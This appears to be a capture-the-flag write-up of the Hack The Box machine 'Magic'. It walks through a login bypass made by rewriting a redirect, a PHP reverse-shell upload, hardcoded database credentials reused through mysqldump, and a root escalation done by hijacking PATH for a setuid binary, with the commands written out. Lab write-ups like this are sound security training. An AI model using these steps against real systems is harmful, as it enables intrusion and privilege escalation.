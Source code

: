 ```yaml
---
title: "📦 HTB - Magic"
date: 2020-08-20 14:00:00
summary: ""
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


## TL;DR

HTTP redirect bypass (unintended 😁), PHP code execution through file upload to get a reverse shell. User with hardcoded SQL credentials on server, privesc with custom binary with no `$PATH` check.

> As I am an idiot, I reinstalled my distribution without making a backup of my files 🙈
> So I don't have any screenshot or payloads I used for this box to show you

## Footholds

With a basic `nmap` we found only two ports: 22 and 80.

The running web server seems to be a portfolio, we can also note a login page for the administrator.

## Entry point

### Admin page

I thought it would be great to access this admin page, but I did not found any valid credentials to log myself in. What I did instead was:

1. Use BurpSuite to intercept my requests to the `/admin` page
2. Change the `302 -> /login` redirection code to `200 -> /admin` on response
3. Now got access to the page without login-in

Of course after reading other solutions, this one was really unintented, the 'normal' way was to make an SQL injection in the login form.

### File upload

Now that we are on the admin page, we can upload some pictures in order to display them on the homepage. The first thing that came to my mind was to upload a PHP reverse shell:

![reverse shell](reverse.png)

If we upload it and visit it we got our nice reverse shell working!

## User

We are in the machine, but need to privesc as a user. Looking in the server's directory I found an intersting `db.php5` file:

```php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

We try to log as the mentioned user with the given password. It does not works. Maybe it is some valid SQL credentials? I also found a `mysqldump` binary on the system, which -- pay attention -- dumps a given MySQL schema.

```bash
$ mysqldumps -u theseus -p iamthekingtheseus --all-databases
```

We then get a new password: `admin:Th3s3usW4sK1ng`. Maybe this one is the user's password? We can log-in with `theseus:Th3s3usW4sK1ng`!

## Root

We now need to get as `root`!

By looking into `/bin/` we get an interesting binary `sysinfo` running with `UID=0` 😇

This binary basically fetches information on the system and outputs it on stdout.

Here, the vulnerability is: the binary executes some commands (such as `lswh -short`, `lsblk -l`...) without an absolute path to them. We can easilly create our own `lswh` binary and change our `$PATH` to trick this program to execute our code as `root` (`UID=0`)!

This is what I did:

```bash
$ cd /tmp
$ mkdir .ninja && cd .ninja
$ echo 'echo $(whoami)' > lshw
$ chmod +x lshw
$ export PATH=/tmp/.ninja:$PATH
$ sysinfo

[...]
====================Hardware Info====================
root    # <-- our code execution!
=====================================================
[...]
```

By now we only have to cat `/root/root.txt`, or create ourselves a reverse shell, add our SSH key to the box, or anything!

```bash
$ echo 'cat /root/root.txt' > lshw
$ sysinfo

[...]
====================Hardware Info====================
[/root/root.txt hash here 😀]
=====================================================
[...]
```

Sorry for this bad writeup, I lost all my files, payloads and notes but I tryied my best.

![Rooted](rooted.png)
